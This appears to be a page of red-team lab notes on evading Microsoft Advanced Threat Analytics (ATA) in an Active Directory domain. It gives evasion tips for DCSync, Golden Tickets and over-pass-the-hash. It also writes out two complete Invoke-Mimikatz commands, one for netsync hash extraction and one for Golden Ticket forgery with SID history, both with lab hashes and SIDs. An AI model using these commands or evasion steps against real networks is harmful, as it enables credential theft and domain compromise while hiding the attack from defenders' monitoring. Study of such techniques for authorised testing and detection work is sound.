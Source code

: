 ATA is useful for detecting:

1. **Recon**: Account enum, Netsession enum
2. **Compromised Credentials Attacks**: Brute force, High privilege account/service account exposed in clear text, Honey token, unusual protocol (NTLM and Kerberos)
3. **Credential/Hash/Ticket Replay attacks**.

<br/>

Note that there are known bypasses of ATA. The key is to avoid talking to the DC as long as possible and make appear the traffic we generate as attacker normal.

To bypass **DCSync** detection, **go for users which are whitelisted**. For example, the user account used for PHS may be whitelisted.<br/>

Also, if we have NTLM hash of a DC, we can extract NTLM hashes of any machine account using `netsync`:

```
Invoke-Mimikatz -Command '"lsadump::netsync /dc:us-dc.us.techcorp.local /user:us-dc$ /ntlm:f4492105cb24a843356945e45402073e /account:us-web$"'
```

<br/>

If we forge a Golden Ticket with SID History of the Domain Controllers group and Enterprise Domain Controllers Group, there are less chances of detection by ATA:

```
Invoke-Mimikatz -Command '"kerberos::golden /user:us-dc$ /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /groups:516 /krbtgt:b0975ae49f441adc6b024ad238935af5 /sids:S-1-5-21-2781415573-3701854478-2406986946-516,S-1-5-9 /ptt"'
```

<br/>

Note ATA (1.9) does not detect Golden tickets created with a non-existent username.

<br/>

When doing Over-PTH, when providing all `NTLM`, `AES128` and `AES256`, it avoids detection by ATA.

<br/>

---

